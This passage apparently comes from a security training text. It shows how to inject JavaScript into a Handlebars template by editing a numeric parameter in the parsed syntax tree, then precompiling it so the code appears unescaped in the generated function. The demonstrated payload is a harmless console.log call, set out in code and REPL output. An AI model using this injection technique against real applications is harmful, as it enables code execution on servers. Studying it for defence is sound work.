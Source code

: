 Once precompiled, we can find "12345" within the generated code. If we were to use this as our injection point, we should understand where we are injecting. To do this, we'll format the return function in a more readable format.

container.escapeExpression(
	(lookupProperty(helpers, "someHelper") ||
		(depth0 && lookupProperty(depth0, "someHelper")) ||
		container.hooks.helperMissing
	).call(
		depth0 != null ? depth0 : (container.nullContext || {}),
		"some string",
		12345,
		true,
		undefined,
		null,
		{
			"name": "someHelper",
			"hash": {},
			"data": data,
			"loc": {
				"start": {
					"line": 1,
					"column": 0
				},
				"end": {
					"line": 1,
					"column": 54
				}
			}
		}
	)
);
Listing 96 - Formatted Return

The number is used as an argument to the call function. As long as the JavaScript we are injecting is syntactically correct, we do not need to do any extra escaping. Let's attempt to change the value of the number in the AST to call console.log, precompile it, and render the template.

> ast.body[0].params[1].value = "console.log('haxhaxhax')"
"console.log('haxhaxhax')"

> precompiled = Handlebars.precompile(ast)
'{"compiler":[8,">= 4.3.0"],"main":function(container,depth0,helpers,partials,data) {\n' +
  '    var lookupProperty = container.lookupProperty || function(parent, propertyName) {\n' +
  '        if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {\n' +
  '          return parent[propertyName];\n' +
  '        }\n' +
  '        return undefined\n' +
  '    };\n' +
  '\n' +
  `  return container.escapeExpression((lookupProperty(helpers,"someHelper")||(depth0 && lookupProperty(depth0,"someHelper"))||container.hooks.helperMissing).call(depth0 != null ? depth0 : (container.nullContext || {}),"some string",console.log('haxhaxhax'),true,undefined,null,{"name":"someHelper","hash":{},"data":data,"loc":{"start":{"line":1,"column":0},"end":{"line":1,"column":54}}}));\n` +                          
  '},"useData":true}'
  
